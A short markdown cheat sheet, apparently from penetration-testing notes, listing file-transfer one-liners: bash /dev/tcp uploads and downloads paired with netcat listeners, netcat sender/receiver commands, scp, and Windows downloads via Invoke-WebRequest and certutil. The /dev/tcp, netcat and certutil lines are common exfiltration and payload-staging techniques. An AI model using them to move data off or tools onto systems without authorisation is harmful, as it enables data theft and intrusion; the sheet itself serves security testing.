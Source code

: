 ## Bash with Netcat listener
Upload:
`bash -c 'cat <FILE> > /dev/tcp/<IP>/<PORT>'`
`nc -lnvp <PORT> > <FILE>`

Download:
`bash -c 'cat < /dev/tcp/<IP>/<PORT> > <FILE>'`
`nc -lnvp <PORT> < <FILE>`

## Netcat
`nc -q 0 <IP> <PORT> < <FILE>` (sender)
`nc -lnvp <PORT> > <FILE>` (receiver)

## SCP (SSH)
Upload:
`scp <FILE> <USER>@<IP>:<FILE> -P <PORT>`

Download:
`scp <USER>@<IP>:<FILE> -P <PORT>`

## HTTP download
`Invoke-WebRequest "http://<IP>/<FILE>" -OutFile "<FILE>"`
`certutil -urlcache -f http://<IP>/<FILE> <FILE>`